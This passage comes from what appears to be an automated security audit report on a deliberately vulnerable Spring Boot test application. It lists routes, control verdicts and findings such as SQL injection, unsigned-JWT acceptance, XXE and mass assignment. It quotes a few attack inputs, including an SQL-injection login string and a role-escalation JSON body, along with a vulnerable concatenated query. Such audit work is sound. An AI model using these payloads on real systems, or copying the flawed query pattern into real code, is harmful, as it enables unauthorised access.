| ? | `ANY /api/files` | 🟠 High | 🟠 [F-033](#f-033) — Path Traversal via Name Parameter in (`FileReadController.java:19`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:14` |
| ? | `ANY /api/integration` | 🟠 High | 🟠 [F-038](#f-038) — Server-Side Request Forgery via Unrestricted URL Fetch (`IntegrationController.java:23`)<br/>handler: `src/main/java/com/example/appsecverificationtarget/serverside/IntegrationController.java:12` |
| ? | `ANY /api/legacy-admin` | 🟠 High | 🔴 [F-012](#f-012) — Unsigned JWT Accepted by LegacyJwtVerifier (algorithm none) (`LegacyJwtVerifier.java:15`)<br/>Legacy admin API — unauthenticated access to privileged audit operations |
| ? | `ANY /api/legacy-session` | 🟠 High | 🟠 [F-014](#f-014) — Forged Session Token via Base64-Encoded User ID (HomegrownSessionService) (`HomegrownSessionService.java:21`)<br/>Legacy session endpoint accepting Base64-encoded user ID as auth token |
| ? | `ANY /api/xml` | 🟠 High | 🟠 [F-026](#f-026) — XML External Entity Injection in XmlPreviewController (XXE) (`XmlPreviewController.java:22`)<br/>🟠 [F-043](#f-043) — XXE Exponential Entity Expansion Enables Memory Exhaustion (`XmlPreviewController.java:22`)<br/>XML preview POST — XXE enabled by default, external entity processing not disabled |
| GET | `/admin-preferences` | - | Admin preferences - authorization check occurs after entity binding<br/>_⚑ Review: no auth guard detected_ |
| POST | `/documents/{id}` | - | handler: `src/main/java/com/example/appsecverificationtarget/web/DocumentManagementController.java:96`<br/>_⚑ Review: no auth guard detected_ |
| POST | `/documents/{id}/delete` | - | handler: `src/main/java/com/example/appsecverificationtarget/web/DocumentManagementController.java:120`<br/>_⚑ Review: no auth guard detected_ |
| POST | `/orders/{id}` | - | handler: `src/main/java/com/example/appsecverificationtarget/web/OrderManagementController.java:107`<br/>_⚑ Review: no auth guard detected_ |
| POST | `/orders/{id}/delete` | - | handler: `src/main/java/com/example/appsecverificationtarget/web/OrderManagementController.java:131`<br/>_⚑ Review: no auth guard detected_ |
| GET | `/otp` | - | handler: `src/main/java/com/example/appsecverificationtarget/crypto/CryptoController.java:33`<br/>_⚑ Review: auth/token endpoint_ |
| GET | `/password-digest` | - | handler: `src/main/java/com/example/appsecverificationtarget/crypto/CryptoController.java:28`<br/>_⚑ Review: auth/token endpoint_ |
| GET | `/signed-jwt/token` | - | handler: `src/main/java/com/example/appsecverificationtarget/authentication/AuthController.java:49`<br/>_⚑ Review: auth/token endpoint_ |
| POST | `/{id}/release` | - | handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/DocumentDecisionController.java:24`<br/>_⚑ Review: no auth guard detected_ |
| ? | `ANY /api/admin/users` | - | Management surface; handler: `src/main/java/com/example/appsecverificationtarget/accesscontrol/AdminUserController.java:12`<br/>_⚑ Review: no auth guard detected_ |

_28 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (87 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

### 5.2 Authenticated Entry Points (1)

| Method | Route | Risk | Notes |
|------|------------|----------|------------------------------------|
| POST | `/login` | 🔴 Critical | 🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw (`LegacySqliteUserStore.java:64`)<br/>🟠 [F-013](#f-013) — Trivially Guessable Default Credentials Seeded at Startup (`admin/password`) (`SecurityConfig.java:79`)<br/>🟠 [F-028](#f-028) — Cleartext Credentials Written to Application Logs (CredentialLoggingFilter) (`CredentialLoggingFilter.java:25`)<br/>Login form POST — credentials logged cleartext by CredentialLoggingFilter |

---

## 6. Security Architecture

This chapter is organized by security-control category. The architecture section avoids artificial control IDs and finding-ID columns in overview tables. Findings are listed only where the affected control is described.

_[§6](#6-security-architecture) schema v2 (13-section control-category layout). Cataloged controls: 32 total - 3 adequate, 7 partial, 5 weak, 0 unsafe, 17 missing. Linked threats: 51._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What it asks of you |
|----------|------------------------------------|------------------------|
| 🟢 Adequate | Control is present and sound | Nothing - keep it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🔴 Unsafe | **Present and relied upon, but defeated /<br/>trivially bypassable** | **Fix the existing control** |
| 🔴 Missing | **Control was never built** | **Add the control** |
| - | Not applicable to this codebase | - |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an MD5 password hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no Content-Security-Policy header).

### 6.1 Security Control Overview

<!-- §6.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Main reason |
|----------------------|----------|------------------------------------|
| [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls) | 🔴 Missing | 6 routed findings; required controls not in<br/>place (e.g. Password-Based Login, Legacy<br/>Authentication Paths). |
| [6.3 Session and Token Controls](#63-session-and-token-controls) | 🔴 Missing | Required controls not in place (e.g. Spring<br/>Security Session Management, Unsigned JWT<br/>Verification). |
| [6.4 Authorization Controls](#64-authorization-controls) | 🔴 Missing | 5 routed findings; required controls not in<br/>place (e.g. Role-Based Access Control,<br/>Object-Level Authorization). |
| [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls) | 🟠 Weak | 2 routed findings; catalogued controls are<br/>weak (e.g. Parameterized Query Enforcement). |
| [6.6 Input Boundary Validation Controls](#66-input-boundary-validation-controls) | 🔴 Missing | 1 routed finding; required controls not in<br/>place (e.g. Validation Approach, Bean<br/>Validation (Spring @Valid)). |
| [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls) | 🟡 Partial | 0 routed findings; 1 partial control (e.g.<br/>Thymeleaf HTML Auto-Escaping) leave gaps. |
| [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls) | 🔴 Missing | 4 routed findings; required controls not in<br/>place (e.g. CORS Policy, CSRF Protection). |
| [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection) | 🔴 Missing | 10 routed findings; required controls not in<br/>place (e.g. Password Hashing, Secret<br/>Management). |
| [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls) | 🔴 Missing | 7 routed findings; required controls not in<br/>place (e.g. File Upload Validation, SSRF<br/>Prevention). |
| [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls) | 🔴 Missing | 10 routed findings; required controls not in<br/>place (e.g. Audit Logging, Container Image<br/>Hardening). |
| [6.12 Real-time and Not Applicable Controls](#612-real-time-and-not-applicable-controls) | 🟢 Adequate | 2 adequate controls (e.g. WebSocket /<br/>Real-time Channel, AI / LLM Integration<br/>Controls); no routed findings in this<br/>category. |
| [6.13 Defense-in-Depth Summary](#613-defense-in-depth-summary) | - | No controls or findings routed to this<br/>category. |

<!-- §6.1 MECHANICAL-FROZEN END -->

### 6.2 Identity and Authentication Controls

<a id="ctrl-identity-and-authentication-controls"></a>

**Dependent crossings:** [tb-1](#tb-1) refuted - 🔴 [F-006](#f-006), 🔴 [F-009](#f-009), 🔴 [F-012](#f-012), +1 · [tb-2](#tb-2) refuted - 🟠 [F-021](#f-021)


**Systemic weaknesses:** [W-001](#w-001)
**Verdict:** 🔴 Missing - SQL injection bypasses the legacy authentication endpoint, no rate limiting protects any login path, no password strength policy is enforced, and default credentials are seeded at startup.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.2.1 User Registration](#user-registration)
- [6.2.2 Password-Based Login](#password-based-login)
- [6.2.3 Password Reset](#password-reset)

**Implemented controls:** BCrypt password encoding via Spring Security's `UsernamePasswordAuthenticationFilter` for the primary POST /login path; parameterized `authenticate()` method in `LegacySqliteUserStore` for the legacy POST endpoint.

**Assessment:** Authentication operates on two parallel stacks: a Spring Security form-based path using BCrypt and JSESSIONID sessions, and a legacy SQLite path via `LegacySqliteAuthController` that exposes an additional raw-SQL endpoint. The Spring Security path encodes passwords correctly but lacks rate limiting, account lockout, and password-strength enforcement. The legacy path adds SQL injection at `LegacySqliteUserStore.java:64`, hardcoded seed credentials, and an unauthenticated endpoint that returns all users with plaintext passwords. Each successful flow above terminates in the server issuing a session token; the signing, validation, propagation, storage, and lifecycle of that token are described in [§6.3 Session and Token Controls](#63-session-and-token-controls).

<!-- §6.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms (at a glance).** Every authentication mechanism detected on the application, its effective status, where it is assessed, and its linked findings. Controls are catalogued by domain, so JWT/session handling is assessed under [§6.3 Session and Token Controls](#63-session-and-token-controls) and password hashing under [§6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection).

| Mechanism | Status | Assessed in | Findings |
|----------------------|----------|-----------|------------------------------------------------|
| User registration | 🔴 Critical | [§6.2](#62-identity-and-authentication-controls) | 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController)<br/>🟡 [F-050](#f-050) — No Audit Logging on Authentication and Registration Endpoints<br/>🟡 [F-052](#f-052) — No Password Minimum Length Policy on User Registration (RegistrationController) |
| Password login | 🟡 Partial | [§6.2](#62-identity-and-authentication-controls) | 🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw<br/>🟠 [F-042](#f-042) — No Rate Limiting on Authentication Endpoints Enables Credential Brute Force |
| Password storage (hashing) | 🟡 Partial | [§6.9](#69-cryptography-secrets-and-data-protection) | [W-005](#w-005) — Security-sensitive data uses weak cryptographic primitives |
| JWT / bearer-token session | 🟠 Weak | [§6.3](#63-session-and-token-controls) | 🔴 [F-002](#f-002) — JWT parsed without signature verification src/main/java/com/example/appsecverif…<br/>🔴 [F-012](#f-012) — Unsigned JWT Accepted by LegacyJwtVerifier (algorithm none) |

_Also checked, not detected on this codebase: Password reset / change, Session-token storage, Multi-factor authentication (TOTP / 2FA), OAuth / OIDC federated login._

<!-- §6.2 AUTH-MECHANISMS-FROZEN END -->

<a id="user-registration"></a>
#### 6.2.1 User Registration

**Status:** 🔴 Missing - no password-length enforcement is applied at registration and hardcoded demo credentials are seeded into the production-runnable application on every startup.

`RegistrationController` accepts POST /register and persists users to H2 via Spring Data JPA with BCrypt password encoding. No email verification step, no password-strength validation, and no minimum-length constraint are applied. `SecurityConfig.java:79` seeds demo accounts (`alice`, `bob`, `admin`) with the fixed password `password` on every application startup.

**Security assessment**

Two weaknesses combine on the registration boundary:

- `RegistrationController.java:41` accepts any non-empty password, including a single character, with no length or complexity constraint - any registration yields a legitimate BCrypt-protected account regardless of password quality.
- `SecurityConfig.java:79` seeds demo credentials with a fixed password at startup; these accounts are active and reachable in any deployment environment, including production.

**Relevant findings**

- 🟡 [F-052](#f-052) — No Password Minimum Length Policy on User Registration — no password minimum-length policy on user registration allows single-character passwords.
- 🟠 [F-013](#f-013) — Trivially Guessable Default Credentials Seeded at Startup — trivially guessable default credentials seeded at startup in `SecurityConfig.java:79` are reachable in every deployment.
- 🟡 [F-050](#f-050) — No Audit Logging on Authentication and Registration Endpoints — no structured security event is emitted for registration activity, preventing detection of automated account creation.

<a id="password-based-login"></a>
#### 6.2.2 Password-Based Login

**Status:** 🟠 Weak - the primary Spring Security login path uses BCrypt correctly, but a legacy endpoint routes to raw SQL that allows full authentication bypass.

`POST /login` is handled by Spring Security's `UsernamePasswordAuthenticationFilter`. `UserDetailsService` loads the user record from H2 and `BCryptPasswordEncoder.matches()` verifies the submitted password. On success, Spring creates a `JSESSIONID` session cookie. A parallel legacy endpoint `GET /api/legacy-sqlite/login-raw` routes to `LegacySqliteUserStore.authenticateRaw()`, which bypasses the parameterized path.

The diagram shows the primary form-login path:



**Security assessment**

Two weaknesses on the login boundary:

- `LegacySqliteUserStore.java:64` builds the credential query by direct string concatenation; submitting `legacy_admin' --` as the username produces a query that comments out the password predicate and returns the admin row with `role=ADMIN`.
- No rate limiting or account lockout is applied to either `POST /login` or the legacy endpoints, leaving credential brute-force fully open against both.

**Relevant findings**

- 🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw — SQL injection in `authenticateRaw()` at `LegacySqliteUserStore.java:64` allows authentication bypass without a valid password; primarily assessed in [§6.5](#65-query-construction-and-data-access-controls).
- 🟠 [F-042](#f-042) — No Rate Limiting on Authentication Endpoints Enables Credential Brute Force — no rate limiting on login endpoints; primarily assessed in [§6.2.5 Authentication Rate Limiting](#authentication-rate-limiting).

<a id="password-reset"></a>
#### 6.2.3 Password Reset

**Status:** 🔴 Missing - no password reset, token issuance, or out-of-band delivery mechanism is implemented.

No `/forgot-password`, `/reset-password`, or equivalent flow exists in any controller. Users with no valid session have no supported credential recovery path.

**Security assessment**

Password reset is absent: no reset-token issuance, no out-of-band delivery channel, no token expiry. This does not create a direct exploitation path but leaves account recovery undefined and forces administrators to reset accounts through direct database access.

**Relevant findings**

- No dedicated finding routed in this assessment.

<a id="legacy-authentication-paths"></a>
**Legacy Authentication Paths.**


**Status:** 🟠 Weak - the legacy SQLite authentication controller exposes both a SQL-injectable login endpoint and an unauthenticated credential-dump route that returns plaintext passwords.

`LegacySqliteAuthController` exposes two endpoints beyond the Spring Security path: `POST /api/legacy-sqlite/login` (which calls the parameterized `authenticate()` method) and `GET /api/legacy-sqlite/login-raw` (which calls the unsafe `authenticateRaw()`). Both are listed under `permitAll()` in `SecurityConfig.java:40`. A third endpoint, `GET /api/legacy-sqlite/users`, also falls under `permitAll()` and returns the full user list including credential fields.

**Security assessment**

Three compounding weaknesses on the legacy authentication surface:

- `LegacySqliteUserStore.java:64` concatenates username and password into a raw SQL string; `GET /api/legacy-sqlite/login-raw?username=legacy_admin'+--&password=x` bypasses the password check and returns the admin row.
- `LegacySqliteAuthController.java:65` serves `GET /api/legacy-sqlite/users` without authentication, returning all user records including plaintext passwords from the SQLite store.
- `LegacySqliteUserStore.java:37` seeds a hardcoded `legacy_admin` account; the credential is visible in source and baked into the container image.

**Relevant findings**

- 🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw — SQL injection authentication bypass via `authenticateRaw()` at `LegacySqliteUserStore.java:64`.
- 🔴 [F-007](#f-007) — Unauthenticated GET /api/legacy-sqlite/users Returns All Plaintext Passwords — unauthenticated endpoint at `GET /api/legacy-sqlite/users` returns all users including plaintext passwords.
- 🔴 [F-015](#f-015) — Hardcoded Weak Seed Credentials for legacy_admin Account — hardcoded seed credential for `legacy_admin` in `LegacySqliteUserStore.java:37`.

<a id="authentication-rate-limiting"></a>
**Authentication Rate Limiting.**


**Status:** 🔴 Missing - no request throttling, backoff, or account lockout is applied to any login or registration endpoint.

Authentication endpoints accept unlimited requests from any source. `SecurityConfig.java:50` defines no rate-limiting rules for `POST /login`, `GET /api/legacy-sqlite/login-raw`, or `POST /register`.

**Security assessment**

Credential brute-force against both the Spring Security and legacy login paths is unconstrained: no per-IP throttling, no per-account lockout, no exponential backoff. The legacy GET endpoint amplifies the exposure because GET requests are cacheable and easier to automate at scale than POST.

**Relevant findings**

- 🟠 [F-042](#f-042) — No Rate Limiting on Authentication Endpoints Enables Credential Brute Force — no rate limiting on authentication endpoints at `SecurityConfig.java:50`, allowing unlimited credential-guessing attempts against all login paths.

### 6.3 Session and Token Controls

<a id="ctrl-session-and-token-controls"></a>

**Dependent crossings:** [tb-1](#tb-1) refuted - 🔴 [F-006](#f-006), 🔴 [F-009](#f-009), 🔴 [F-012](#f-012), +1 · [tb-2](#tb-2) refuted - 🟠 [F-021](#f-021)

**Verdict:** 🔴 Missing - the primary JWT verification path accepts unsigned tokens outright; a parallel homegrown session path uses a bare base64-encoded user ID with no integrity check.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.3.1 Spring Security Session Management](#spring-security-session-management)
- [6.3.2 Unsigned JWT Verification](#unsigned-jwt-verification)

**Implemented controls:** Spring Security JSESSIONID server-side sessions for the form-based login path; JWT bearer token parsing via `LegacyJwtVerifier` for legacy API endpoints.

**Assessment:** This application uses a single locally-signed token format (commonly called JWT) for every authenticated session, regardless of the login flow in [§6.2](#62-identity-and-authentication-controls) that established it. The sub-sections below trace one token through its lifecycle: signing on issuance, validation on every protected request, storage in the browser, manual revocation, and time-based expiry. The dominant risk is that `LegacyJwtVerifier.java:17` calls `parseClaimsJwt()` with no configured signing key, accepting any JWT - including one forged by the attacker with `alg:none` and `role=admin` in the claims.

<a id="spring-security-session-management"></a>
#### 6.3.1 Spring Security Session Management

**Status:** 🟡 Partial - JSESSIONID sessions are created correctly on login, but no explicit session timeout, concurrent-session limit, or logout-invalidation policy is configured.

Spring Security creates a server-side session on successful `POST /login` and issues a `JSESSIONID` cookie. Protected routes verify the session through `SecurityContextPersistenceFilter`. The session store is in-memory, scoped to the single application instance.

**Security assessment**

JSESSIONID session management is the most secure authentication mechanism in the codebase - sessions are server-side and require server cooperation to validate. The gaps are configuration-level: no idle or absolute timeout is configured in `SecurityConfig`, no concurrent-session policy prevents session duplication, and no explicit logout handler invalidates the server-side session on sign-out (cookies are cleared client-side only).

**Relevant findings**

- No dedicated finding routed in this assessment.

<a id="unsigned-jwt-verification"></a>
#### 6.3.2 Unsigned JWT Verification

**Status:** 🟠 Weak - `LegacyJwtVerifier` accepts unsigned JWTs via `parseClaimsJwt()`, and `HomegrownSessionService` issues base64-encoded user IDs with no MAC.

`LegacyJwtVerifier.java:15-17` parses bearer tokens using `Jwts.parserBuilder().build().parseClaimsJwt(token)`. This variant accepts tokens with no signing key configured, so any JWT with `alg:none` - or any unsigned token - passes verification and its claims are trusted. A separate session path in `HomegrownSessionService.java:21` encodes only a user ID as a plain base64 string and uses it as a session token, with no HMAC or signature.

The diagram shows the current broken validation path and the required fix:



**Security assessment**

Two independent session-integrity failures:

- `LegacyJwtVerifier.java:15-17` calls `parseClaimsJwt()` with no `setSigningKey()` call; any attacker can mint a token locally with `{"alg":"none"}` and arbitrary claims, and the server will trust it - no key material or server access required.
- `HomegrownSessionService.java:21` encodes only the user ID as base64; any client that knows or guesses a valid user ID can forge a session token for that account.

**Relevant findings**

- 🔴 [F-002](#f-002) — JWT parsed without signature verification — `LegacyJwtVerifier.parseClaimsJwt()` accepts unsigned tokens, making role and identity claims freely forgeable.
- 🔴 [F-012](#f-012) — Unsigned JWT Accepted by LegacyJwtVerifier — unsigned JWT accepted by `LegacyJwtVerifier`; independently confirmed by the `alg:none` bypass path at `LegacyJwtVerifier.java:15`.
- 🟠 [F-014](#f-014) — Forged Session Token via Base64-Encoded User ID — `HomegrownSessionService.java:21` issues base64(userId) as a session token with no MAC; any client who knows a valid user ID can forge a session.

_Additional cataloged controls without a dedicated subsection (no implementation prose and no linked findings): Homegrown Session Token._

### 6.4 Authorization Controls

<a id="ctrl-authorization-controls"></a>

**Dependent crossings:** [tb-1](#tb-1) refuted - 🔴 [F-010](#f-010), 🔴 [F-045](#f-045)


**Systemic weaknesses:** [W-002](#w-002)
**Verdict:** 🔴 Missing - `SecurityConfig` explicitly permits unauthenticated access to the H2 web console, legacy admin board, and admin report endpoint; object-level ownership checks are absent from order and user access routes.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.4.1 Role-Based Access Control](#role-based-access-control)
- [6.4.2 Object-Level Authorization](#object-level-authorization)

**Implemented controls:** Spring Security route matchers in `SecurityConfig` restrict some paths; `@PreAuthorize` annotations are present on a subset of controller methods.

**Assessment:** `SecurityConfig` applies `permitAll()` to `/h2-console/**` (line 32), `/api/admin/**` (line 34), and `/legacy/admin/**` (line 41), making the H2 SQL console, the admin report endpoint, and the legacy admin board accessible to any unauthenticated HTTP client. Object-level ownership is not verified at `OrderAccessController.java:24` or `UserAccessController.java:22`, and `ProfileController.java:44` accepts a full JSON body that includes `role` and `admin` fields without filtering.

<a id="role-based-access-control"></a>
#### 6.4.1 Role-Based Access Control

**Status:** 🟡 Partial - role annotations exist on some endpoints, but three administrative surfaces are listed under `permitAll()` in `SecurityConfig`, directly bypassing any role check.

Spring Security's `SecurityConfig` configures an `HttpSecurity` chain with route-level `requestMatchers`. Some controllers carry `@PreAuthorize("hasRole('ADMIN')")`. The H2 console, the admin report endpoint, and the legacy admin board are all explicitly permitted without authentication at `SecurityConfig.java:32`, `34`, and `41`.

**Security assessment**

The `permitAll()` entries contradict any role annotation on the controllers those paths reach:

- `/h2-console/**` (line 32): unauthenticated access to a full SQL console against the live H2 database.
- `/api/admin/**` (line 34): the admin report endpoint returns aggregate user and order data without authentication.
- `/legacy/admin/**` (line 41): the legacy admin board controller is fully open without authentication.

**Relevant findings**

- 🔴 [F-006](#f-006) — H2 Web Console Exposed Without Authentication Allowing Full Database Access — H2 web console reachable at `/h2-console/**` without authentication, providing a SQL prompt against the live database.
- 🔴 [F-009](#f-009) — Legacy Admin Board Fully Open Without Authentication — legacy admin board at `/legacy/admin/**` fully open without authentication.
- 🔴 [F-046](#f-046) — Unauthenticated Admin Report Endpoint Discloses Aggregate User and Order Data — admin report endpoint at `/api/admin/report` returns aggregate user and order data without authentication.
- 🔴 [F-008](#f-008) — Missing Authentication on H2 SQL Console — empty H2 datasource password in `application.yml:8` amplifies the console exposure; no credential is needed to execute SQL.

<a id="object-level-authorization"></a>
#### 6.4.2 Object-Level Authorization

**Status:** 🔴 Missing - order retrieval endpoints return records by ID without verifying the requesting user owns the resource; the profile update endpoint accepts arbitrary JSON including `role` fields.

`OrderAccessController.java:24` accepts an integer ID path parameter and returns the corresponding order record. No comparison against the authenticated user's identity is performed before returning the resource. `ProfileController.java:44` processes `PUT /api/profile/me` by binding the entire request body to the profile entity without filtering privileged fields.

**Security assessment**

Two independent object-level gaps:

- `OrderAccessController.java:24` returns any order by ID - an authenticated user enumerates integer order IDs to read records belonging to other users.
- `ProfileController.java:44` accepts `{"role": "ADMIN"}` in the request body and applies it; one `PUT /api/profile/me` call with that payload escalates the caller's role without any server-side validation.

**Relevant findings**

- 🔴 [F-045](#f-045) — Insecure Direct Object Reference — IDOR in `OrderAccessController.java:24`; any authenticated user can read any order by enumerating IDs.
- 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me — mass assignment via `PUT /api/profile/me` at `ProfileController.java:44`; the `role` field in the request body is applied without restriction.

### 6.5 Query Construction and Data Access Controls

<a id="ctrl-query-construction-and-data-access-controls"></a>

**Dependent crossings:** [tb-3](#tb-3) refuted - 🔴 [F-004](#f-004) · [tb-4](#tb-4) refuted - 🔴 [F-001](#f-001)

**Verdict:** 🟠 Weak - JPA named queries protect most data access, but three routes build raw SQL by string concatenation, creating injectable paths for authentication bypass and data extraction.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.5.1 Parameterized Query Enforcement](#parameterized-query-enforcement)

**Implemented controls:** Spring Data JPA repository derived-query methods for most entity access; parameterized `PreparedStatement` in `LegacySqliteUserStore.authenticate()` for the primary legacy login path.

**Assessment:** Most data-access operations use Spring Data JPA repository interfaces whose derived queries produce parameterized SQL. The parameterized `authenticate()` method in `LegacySqliteUserStore` demonstrates the correct pattern for the legacy POST login path. Three locations bypass this pattern and concatenate user-controlled strings directly into SQL: the raw legacy auth endpoint, the order-lookup DAO, and the project-search repository.

<a id="parameterized-query-enforcement"></a>
#### 6.5.1 Parameterized Query Enforcement

**Status:** 🟡 Partial - JPA derived queries protect most repositories; raw SQL concatenation in three locations creates injectable paths.

Spring Data JPA repository interfaces back most entity-access operations, producing parameterized SQL automatically. `LegacySqliteUserStore.authenticate()` shows the correct `PreparedStatement` pattern for the primary legacy login call. Two DAO classes and one repository bypass this pattern with native string-concatenated queries.

**Security assessment**

Three locations concatenate user input into SQL:

- `LegacySqliteUserStore.java:64` builds the credential query by concatenating username and password - `legacy_admin' --` as the username bypasses the password predicate entirely.
- `OrderLookupDao.java:22` constructs a native query with a concatenated owner-email value - a malformed email string alters the query structure.
- `ProjectSearchRepository.java:18` applies the same concatenation pattern to a project-search filter parameter.

The vulnerable login query at `LegacySqliteUserStore.java:64` illustrates the pattern:

```java
String sql = "select id, username, password, role from legacy_users"
    + " where username = '" + username + "' and password = '" + password + "'";
```

**Relevant findings**

- 🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw — SQL injection in `authenticateRaw()` at `LegacySqliteUserStore.java:64`; authentication bypass without a valid password.
- 🔴 [F-004](#f-004) — SQL Injection — SQL injection in `OrderLookupDao.java:22`; order-data extraction via a manipulated email parameter.

### 6.6 Input Boundary Validation Controls

<a id="ctrl-input-boundary-validation-controls"></a>

**Dependent crossings:** [tb-1](#tb-1) refuted - 🔴 [F-003](#f-003) · [tb-2](#tb-2) refuted - 🟠 [F-049](#f-049)

**Verdict:** 🔴 Missing - no centralized input validation framework is applied at the HTTP boundary; the XML parser accepts unbounded entity payloads without `FEATURE_SECURE_PROCESSING`.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.6.1 Validation Approach](#validation-approach)
- [6.6.2 Bean Validation](#bean-validation)

**Implemented controls:** Spring Boot includes the Bean Validation API (Hibernate Validator) on the classpath; `@NotNull` and `@Size` constraints are present on a small number of JPA entity fields.

**Assessment:** Bean Validation infrastructure is available but not consistently wired to controller inputs. Most endpoints accept raw `@RequestBody` or `@RequestParam` values without `@Valid`, so no structural, size, or format validation runs before the value reaches service or DAO logic. The XML preview endpoint is the most severe consequence: it parses user-supplied XML without document-size or entity-count limits, enabling exponential entity expansion.

<a id="validation-approach"></a>
#### 6.6.1 Validation Approach

**Status:** 🔴 Missing - no global validation filter or `@ControllerAdvice` enforces input constraints at the HTTP boundary; controller methods bind raw user input without activation of `@Valid`.

